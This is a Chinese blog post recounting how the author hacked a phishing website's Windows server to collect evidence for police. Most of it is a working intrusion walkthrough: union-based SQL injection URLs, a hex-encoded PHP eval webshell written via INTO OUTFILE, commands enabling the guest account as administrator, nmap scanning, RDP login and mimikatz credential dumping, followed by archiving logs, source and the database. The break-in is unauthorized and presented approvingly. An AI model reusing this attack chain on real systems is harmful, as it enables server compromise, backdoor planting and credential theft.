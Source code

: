 ```yaml
---
layout: post
title:  "[Web安全]记一次钓鱼网站调查取证"
date:   2018-07-14 9:51
categories: jekyll
permalink: /archivers/Traceability-go-fishing-website-20180714
---
```


## 0x00 前言

  前段时间加了个设计群,某人说朋友被骗钱在群里吐了两天苦水,原先真不打算管这事,没太多时间管闲事.无奈昨晚下了场大雨,没办法出门跑步,一时技痒就顺道把钓鱼站黑了顺道把网站日志跟服务器登陆日志打包出来.所以有了这篇文章记录一下过程.

## 0x01 溯源准备

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714151131.jpg)

### 1.1 开始

看到链接下看到后缀php?uid=,初步判断应该是php+mysql的网站..复制链接到电脑浏览器打开后下意识职业病uid=87'
  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101207.png)
  

### 1.2 爆出路径,可能存在sql注入

  ![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714101745.png)
  
得到路径D:\xxxxx\zz\index.php，加上header头数据初步判断得出是Windows+Apache+Php+Mysql的网站,能爆路径很概率会有Sql注入,我们先记录下来路径是D:\xxxxx\
>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=1 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714103406.png)


### 1.3 有sql注入

本来想掏出SQLMAP一把梭,结果sqlmap居然没注入出来..可能是我的操作有问题..只能手工注入了.

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/8f83af916f494821bc2980ac6d539759.jpeg)

### 1.4 猜字段数目

当尝试注入语句字段个数为26返回正确,27返回错误,说明字段数等于26.

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 26 //返回正常

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 order by 27 //返回错误

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714104806.png)

### 1.5 联合查询语句，暴出可显示字段

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,
>14,15,16,17,18,19,20,21,22,23,24,25,26

### 1.6 暴出数据库用户、版本、库名和路径信息.

>system_user() 系统用户名
>user() 用户名
>current_user当前用户名
>session_user()连接数据库的用户名
>database() 数据库名
>version() MYSQL 数据库版本
>load_file() MYSQL 读取本地文件的函数
>@@datadir 读取数据库路径
>@@basedir MYSQL 安装路径
>@@version_compile_os 操作系统 

>http://www.xxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,user(),database(),7,8,version(),10,11,12,@@basedir,14,15,16,17,18,19,20,21,22,23,24,25,26

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714122723.png)

运气不错是root权限,不用大费周章跑去后台传马,直接写,记录信息root@localhost^^5.5.40^^xxxx^^D:/phpStudy/MySQL/

### 1.7 写入webshell

结合我们刚才爆出的网站路径D:\xxxxx\zz\ 
php一句话<?php eval($_POST['test'])?>
去https://www.107000.com/T-Hex/ 转成hex16进制加上0x
得出写入webhsell语句.

>http://www.xxxxx.cn/zz/index.php?zt=1&uid=87 xor 1=2 union select 1,2,3,4,0x3C3F706870206576616C28245F504F53545B2774657374275D293F3E,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 into outfile 'D:/xxxxx/zz/weiho.php'


### 1.8 提升权限

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714150838.png)
连接上去看一下权限,Administrator..典型phpstudy安装完啥也不管直接把站丢上去的情况..还想着要不Mysql UDF或者MOF提权.这里接下来有两种做法,直接启用guest,添加密码以及管理员权限.第二种下个wce读取明文,以administrator的权限登陆.Ps:wce需要管理员或管理员以上的权限才可以,一般情况下配合本地提权exploit,但这里是Administrator.可以忽略掉要提权的操作.不过我们这里选前者,直接启用guest账号.先查看下对方在不在VPS里.状态:断开.
>query users //查看登陆
>
>用户名                会话名             ID  状态    空闲时间   登录时间
>
>administrator                             2  断开      1+21:09  2018/7/11 23:15
>
>net user guest /active:yes &net localgroup administrators guest /add & net user guest weiho4444@
>
>命令成功完成。
>

### 1.9 登陆远程桌面

>nmap -sS -A -v -p- --open xxxx.cn

我进来这服务器前用nmap大概扫了一下.有三个端口开放80,3306,3389.本来想爆破3306.telnet过去没到三秒结束会话,后面登陆才发现设置了IP.3389一般是远程桌面的端口.直接本地连过去就行了.
运行远程桌面
>mstsc

### 1.10 读取明文密码

https://github.com/gentilkiwi/mimikatz/releases/tag/2.1.1-20180616
先下载回来,由于这VPS是x86系统所以运行x86的mimikatz

Ps:一定要是管理员权限才能运行.
>privilege::debug
>
>sekurlsa::logonpasswords

![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714135136.png)

得到管理员administrator密码540cxxxxxx.把自己账号禁了,以管理员进去.


## 0x02 开始溯源

### 2.1 拷贝系统日志Security和System

>C:\Windows\System32\winevt\Logs

### 2.2 Apache日志 error.log

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\error.rar D:\phpStudy\Apache\logs

### 2.3 打包网站源码

>"C:\Program Files\WinRAR\Rar.exe" a -k -r -s -m1 D:\xxxxxx\1.rar D:\xxxxx\

### 2.4 导出mysql数据库

mysqldump -uroot -proot123456 dbname > D:\xxxxx\dbname.sql


![avatar](https://weiho-1252873266.cos.ap-guangzhou.myqcloud.com/blog/1Traceability/Gofishing/20180714141302.png)

## 0x03 后话

  把数据打包后,让那哥们交民警结果人家民警同志不信..说我数据可能伪造.我说让民警直接联系我吧,然后blabla不了了之,就立了案.OMG.大写服气.后面让玄道转交给江苏的网警同志.今天(7.14)记录一下昨晚(7.13)的大概过程.中间省略了一些不太必要的过程.后续可以做的事,分析apache以及系统日志.做个后门记录远程桌面访问的IP,以及iframe之类的引用插入后台相关地址记录.查看web服务器日志得到对应IP.

## 0x04

>参考资料
>
>[一个PHP+Mysql手工注入例子](https://blog.csdn.net/praifire/article/details/51926863)
>
>[Mysql注入方式](https://www.cnblogs.com/0x03/p/7451292.html)
>
>[Hex编码解码](https://www.107000.com/T-Hex/)
>
>[caidao](https://github.com/pythonsky/caidao-20160620-www.maicaidao.com)
>
>[mimikatz](https://github.com/gentilkiwi/mimikatz)
>
>[使用mimikatz_trunk获取计算机密码](https://jingyan.baidu.com/album/e52e36154c3ff140c70c515f.html)
